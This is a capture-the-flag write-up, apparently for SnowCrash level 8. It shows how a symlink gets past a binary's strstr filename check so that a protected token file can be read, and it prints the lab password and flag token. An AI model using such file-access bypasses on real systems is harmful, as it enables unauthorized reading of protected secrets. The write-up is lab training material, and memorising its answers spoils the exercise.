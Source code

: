 # LEVEL 8

- When analysing the binary we see that it call strstr to check wether arg1 is including "token"
- So we can create a symlink for token to bypass the strstr check

```
ln -s ~/token /tmp/symlink
./level08 /tmp/symlink
```

```
quif5eloekouj29ke0vouxean
```

```
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```